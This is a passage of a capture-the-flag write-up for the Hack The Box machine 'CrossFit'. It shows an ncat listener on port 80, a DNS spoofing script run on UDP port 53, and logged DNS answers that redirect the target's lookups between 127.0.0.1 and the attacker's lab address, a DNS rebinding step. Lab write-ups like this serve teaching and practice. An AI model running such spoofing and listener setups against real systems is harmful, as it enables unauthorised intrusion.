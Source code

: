 ```py

if __name__ == '__main__':
    main()
```

For this we first set up a ncat listenser on port 80 and start the dns server on port `53` udp.

```
$ sudo nc -lnvp 80
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
```

```
$ sudo python dns_spoof.py --port 53 --udp
Starting nameserver...
UDP server loop running in thread: Thread-1
```

With all set up we run our bash script again and look at the output.

```
$ sudo ./forward_and_reset.sh
ok
HTTP/1.1 200 OK
```

On the dns server the request arrived and got resolved to `127.0.0.1`. However there was another request in quick succession which got resolved to `10.10.14.65` as we specified it in the server.

```
$sudo python dns_spoof.py --port 53 --udp
Starting nameserver...
UDP server loop running in thread: Thread-1


UDP request 2021-08-12 07:12:28.472997 (10.129.68.20 38406):
57 b'\xacP\x01\x00\x00\x01\x00\x00\x00\x00\x00\x01\x0fsm1l3zemployees\x08crossfit\x03htb\x00\x00\x01\x00\x01\x00\x00)\x10\x00\x00\x00\x80\x00\x00\x00'
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 44112
;; flags: rd; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1
;; QUESTION SECTION:
;sm1l3zemployees.crossfit.htb.  IN      A
;; ADDITIONAL SECTION:
;; OPT PSEUDOSECTION
; EDNS: version: 0, flags: do; udp: 4096
---- Reply:
 ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 44112
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 2
;; QUESTION SECTION:
;sm1l3zemployees.crossfit.htb.  IN      A
;; ANSWER SECTION:
sm1l3zemployees.crossfit.htb. 10      IN      A       127.0.0.1
;; AUTHORITY SECTION:
sm1l3zemployees.crossfit.htb. 10      IN      SOA     ns1.sm1l3zemployees.crossfit.htb. andrei.sm1l3zemployees.crossfit.htb. 201307231 3600 10800 86400 3600
;; ADDITIONAL SECTION:
sm1l3zemployees.crossfit.htb. 10      IN      NS      ns1.sm1l3zemployees.crossfit.htb.
sm1l3zemployees.crossfit.htb. 10      IN      NS      ns2.sm1l3zemployees.crossfit.htb.


UDP request 2021-08-12 07:12:28.503203 (10.129.68.20 41908):
57 b'\x04N\x01\x00\x00\x01\x00\x00\x00\x00\x00\x01\x0fsm1l3zemployees\x08crossfit\x03htb\x00\x00\x01\x00\x01\x00\x00)\x10\x00\x00\x00\x80\x00\x00\x00'
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 1102
;; flags: rd; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1
```